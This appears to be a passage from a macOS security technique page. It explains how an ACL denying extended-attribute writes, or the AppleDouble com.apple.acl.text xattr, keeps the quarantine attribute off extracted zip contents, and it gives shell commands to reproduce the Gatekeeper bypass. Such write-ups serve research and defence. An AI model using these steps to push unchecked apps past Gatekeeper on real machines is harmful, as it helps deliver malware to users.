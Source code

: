 ```
chmod 777 /tmp/mnt
mkdir /tmp/mnt/lol
xattr -w com.apple.quarantine "" /tmp/mnt/lol
xattr: [Errno 1] Operation not permitted: '/tmp/mnt/lol'
```
```
### writeextattr ACL

This ACL prevents from adding `xattrs` to the file

```bash
rm -rf /tmp/test*
echo test >/tmp/test
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" /tmp/test
ls -le /tmp/test
ditto -c -k test test.zip
# Download the zip from the browser and decompress it, the file should be without a quarantine xattr

cd /tmp
echo y | rm test

# Decompress it with ditto
ditto -x -k --rsrc test.zip .
ls -le /tmp/test

# Decompress it with open (if sandboxed decompressed files go to the Downloads folder)
open test.zip
sleep 1
ls -le /tmp/test
```
```
### **com.apple.acl.text xattr + AppleDouble**

**AppleDouble** file format copies a file including its ACEs.

In the [[https://opensource.apple.com/source/Libc/Libc-391/darwin/copyfile.c.auto.html|**source code**]] it's possible to see that the ACL text representation stored inside the xattr called **`com.apple.acl.text`** is going to be set as ACL in the decompressed file. So, if you compressed an application into a zip file with **AppleDouble** file format with an ACL that prevents other xattrs to be written to it... the quarantine xattr wasn't set into de application:

Check the [[https://www.microsoft.com/en-us/security/blog/2022/12/19/gatekeepers-achilles-heel-unearthing-a-macos-vulnerability/|**original report**]] for more information.

To replicate this we first need to get the correct acl string:

```bash
# Everything will be happening here
mkdir /tmp/temp_xattrs
cd /tmp/temp_xattrs

# Create a folder and a file with the acls and xattr
mkdir del
mkdir del/test_fold
echo test > del/test_fold/test_file
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" del/test_fold
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" del/test_fold/test_file
ditto -c -k del test.zip

# uncomporess to get it back
ditto -x -k --rsrc test.zip .
ls -le test
```